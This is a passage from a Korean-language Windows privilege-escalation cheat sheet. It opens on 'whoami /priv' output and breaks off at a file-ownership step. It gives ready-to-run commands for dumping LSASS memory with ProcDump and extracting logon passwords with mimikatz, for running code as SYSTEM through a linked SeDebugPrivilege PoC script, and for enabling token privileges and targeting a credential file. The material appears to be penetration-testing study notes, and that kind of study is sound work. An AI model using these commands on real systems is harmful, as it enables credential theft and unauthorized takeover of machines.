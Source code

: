 PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

- [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
```procdump.exe -accepteula -ma lsass.exe lsass.dmp```
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

<br/><br/>
## SYSTEM으로서의 원격 코드 실행
- SeDebugPrivilege for [RCE](https://decoder.cloud/2018/02/02/getting-system/)를 활용
- [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
- [PoC 스크립트 업데이트](https://github.com/decoder-it/psgetsystem)

```tasklist```<br/>
```. .\psgetsys.ps1```<br/>
```[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")```<br/>

- [다른 도구](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)

> 참고 사이트 1 : https://steflan-security.com/windows-privilege-escalation-cheat-sheet/<br/>
> 참고 사이트 2 : https://book.martiandefense.llc/notes/network-security/windows-privesc/windows-user-privileges 

<br/><br/>
# SeTakeOwnershipPrivilege

## 특권 활용

### 현재 사용자 권한 검토
```whoami /priv```

### SeTakeOwnershipPrivilege 활성화
- [블로그](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)
- [스크립트](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
- [개념 설명](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)
```
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

### 대상 파일 선택
```Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}```

### 파일 소유권 확인
```cmd /c dir /q 'C:\Department Shares\Private\IT'```

### 파일 소유권 취득
```